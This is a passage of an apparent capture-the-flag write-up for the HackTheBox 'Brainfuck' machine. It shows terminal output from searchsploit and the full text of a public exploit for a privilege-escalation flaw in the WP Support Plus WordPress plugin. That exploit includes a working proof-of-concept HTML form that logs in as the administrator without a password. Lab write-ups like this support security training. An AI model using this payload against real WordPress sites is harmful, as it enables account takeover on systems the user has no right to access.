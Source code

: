 ```10.10.10.17 brainfuck.htb www.brainfuck.htb sup3rs3cr3t.brainfuck.htb ```
[+] Memory used: 265.082 MB
[+] Elapsed time: 00:00:13
```

WP Plugin Vulnerability

```bash
                                                                                                                                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit WP support plus
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 2.0 - Multiple Vulnerabilities                                          | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation                                            | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection                                                   | php/webapps/40939.txt
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
                                                                                                                                                                  
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit -m 41006.txt   
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/abhinav/41006.txt


                                                                                                                                                                    
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ cat 41006.txt                                         
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# publishDate: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web

1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
```